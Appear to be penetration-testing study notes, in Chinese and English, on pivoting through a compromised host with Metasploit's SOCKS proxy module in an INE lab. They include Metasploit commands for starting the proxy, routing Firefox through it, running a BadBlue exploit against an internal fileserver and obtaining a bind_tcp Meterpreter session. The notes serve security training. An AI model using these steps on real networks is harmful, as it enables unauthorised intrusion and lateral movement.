 主要特点
1. **隐蔽性**：通过在受控主机上设置SOCKS代理，攻击者可以将自己的网络活动伪装成来自受控主机的正常流量。
2. **灵活性**：支持任何能够配置SOCKS代理的应用程序，如浏览器、FTP客户端等。
3. **集成性**：紧密集成于Metasploit框架中，可以与其他模块和功能配合使用，例如Meterpreter会话。

使用场景
- **跨越网络隔离**：例如，在一个拥有多层网络防护的企业环境中，一旦入侵者通过某个漏洞获得了内网某台机器的控制权，便可以在该机器上部署SOCKS代理，通过这台机器访问其他内网资源。
- **绕过IP白名单或防火墙规则**：某些网络只允许特定IP地址访问特定服务。通过在这些网络中的受控机器上设置SOCKS代理，攻击者可以伪装成合法的IP地址。

配置方法
在Metasploit中使用SOCKS Proxy Server通常涉及以下步骤：
1. **启动Meterpreter会话**：首先需要在目标机器上获得Meterpreter会话。
2. **加载SOCKS代理模块**：使用`use auxiliary/server/socks_proxy`命令加载SOCKS代理模块。
3. **配置并启动代理**：设置代理的端口和其他参数（如认证信息），然后启动代理服务。

使用SOCKS代理时应当注意的是，所有通过代理的流量都会通过控制的Meterpreter会话传输，这可能导致流量增加和性能下降。同时，也要注意避免在不合法的情境中使用此类工具，以免违反法律法规。

```
show options
set SRVHOST 10.10.22.3 # Kali Linux system
run
```

Open up Firefox

Settings->proxy->Manual proxy configuration->SOCKS Host

```
Host: 10.10.22.3 # Kali Linux Port: 1080
```

Shell No. 4

```
fileserver.ine.local
```

```
search badblue
use 1
set RHOSTS fileserver.ine.local
```

It will automatically route it, because we can now access it or interact with it via the socks proxy.

[SOCKS proxy](https://www.thehacker.recipes/infra/pivoting/socks-proxy)

However, because we are performing lateral movement through port forwarding, instead of a reverse connection, we wanted to bind to that particular port. So bind TCP or to a port on the target system. And we want that system to connect back to us.

```
set PAYLOAD windows/meterpreter/bind_tcp
exploit
sysinfo
getuid
```

Put the session in the background.

```
sessions
```